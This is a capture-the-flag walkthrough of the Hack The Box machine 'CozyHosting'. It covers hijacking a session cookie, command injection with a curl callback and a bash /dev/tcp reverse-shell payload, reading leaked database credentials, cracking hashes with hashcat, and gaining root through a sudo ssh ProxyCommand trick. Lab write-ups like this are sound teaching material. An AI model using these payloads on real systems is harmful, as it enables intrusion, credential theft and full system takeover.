

# CozyHosting

CozyHosting is a easy machine on HTB

## Enumeration

First we check the open port via **nmap**.


The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.230   cozyhosting.htb" | sudo tee -a /etc/hosts
```


It's a classic website. Let's do some directory search.


We can access the `login` and `index` page, the `asdfjkl;` is empty so nothing here. `error` may be interesting but let's check login first.


Trying some basic username/password didn't work. Let's move to the `error` page.


After researching the error message on internet, we found that it come from **Spring Boot**. So let's redo a dirsearch but with a Spring Boot wordlist.


And if we go to `actuator/sessions` we found this :


## Foothold

Some cookies for a user named **kanderson**. So we can copy them and replace our cookies by the one we found.



Now we can access the admin dashboard!


We can try to add a hostname into the automatic patching. If we try with value like `127.0.0.1` and `test` it return an error.


In the note we can read that it tried to connect via the private key with ssh. So maybe we can do some comand injection.
Open **Burpsuite** and intercept the request.


Setup a **netcat** listener to receive our request

```bash
nc -lvnp 80
```

And change the `username` variable in burp to be equal to `blabla;curl+http://{Your IP}:80;`
We have an error that said the username can't contain whitespace. So we will replace the value '+' (which is a space but URL encoded) to `${IFS}`.
It's a shell variable who by default is equal to a space. So the complete command is `blabla;curl${IFS}http://{Your IP}:80;`

And we receive the request in our netcat listener. So now we can do a command to spawn a reverse shell. Setup a new netcat listener to a different port and change the username variable to `test;bash${IFS}-c${IFS}'exec${IFS}bash${IFS}-i${IFS}%26>/dev/tcp/{Your IP}/{Your Port}${IFS}<%261';`


## User flag

Stabilize it with :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL + Z
stty raw -echo; fg
```

We are the user **app** and we must move up to the user josh. In the directory there is the file `cloudhosting-0.0.1.jar` let's unzip it

```bash
unzip -d /tmp/app cloudhosting-0.0.1.jar
```

After wandering through the files there is some creds in `BOOT-INF/classes/application.properties`


`postgres:Vg&nvzAQ7XxR` So now connect to the postgres database, `psql -h 127.0.0.1 -U postgres` and enter the password.
We can find a cozyhostig database, connect to it with `\connect cozyhosting`. And in the database we have a table named users. Print all it's content with `select * from users;`.


We have two hashes. We can use **hashcat** to crack them. Past the hashes in a file and use the command `hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt`. Try to crack the admin password first. After some time hashcat as found the admin password wich is equal to `manchesterunited`

With this password lets try to login as **josh**


## Privilege escalation

Execute `sudo -l` to see if josh can execute some commands as root.


We can execute ssh with any arguments. If we check on [gtfobins](https://gtfobins.github.io/gtfobins/ssh/) with the command `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x` we can spawn a shell as root.

